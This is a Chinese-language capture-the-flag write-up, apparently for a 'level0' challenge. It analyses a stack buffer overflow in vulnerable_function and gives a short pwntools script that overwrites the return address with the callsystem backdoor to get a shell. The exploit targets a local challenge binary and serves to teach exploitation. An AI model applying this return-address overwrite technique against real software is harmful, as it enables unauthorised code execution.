





## 0x001 程序分析

使用IDA pro加载程序，**main**函数中使用了 **write** 打印了一个字符串，之后调用了 **vulnerable_function** 函数



**vulnerable_function** 函数中，使用 **read** 函数接收输入，接收输入的长度为 0x200 字节



## 0x002 漏洞分析

在 **vulnerable_function** 函数中，可以看到 **buf** 位于 **rbp-0x80** 处，也就是说，如果 **buf** 的长度超过 0x80 个字节，就会覆盖到 **rbp**，超过 0x88 个字节，就会覆盖到返回地址，如图所示：



由于 **read** 函数接受输入的长度可以为 0x200 字节，远超过 0x80 字节, 因此会造成栈溢出漏洞，控制返回地址。

## 0x003 漏洞利用

使用checksec查看程序开启了那些保护：



程序只开启了NX保护，在堆栈上没有可执行权限。

仔细观察程序发现有个后门函数 **callsystem**，可直接获取系统权限：



那么就可以通过栈溢出漏洞，将 **vulnerable_function** 函数的返回地址覆盖为 **callsystem** 函数的地址，从而达到控制程序执行流程、获取系统权限的目的。

python3 exp如下：

```
from pwn import *

p = process("./level0")

# shellcode = buf填充 + rbp + 返回地址
shellcode = b"A" * 128 + b"B" * 8 + p64(0x400596)

p.recvuntil("Hello, World\n")
p.sendline(shellcode)
p.interactive()
```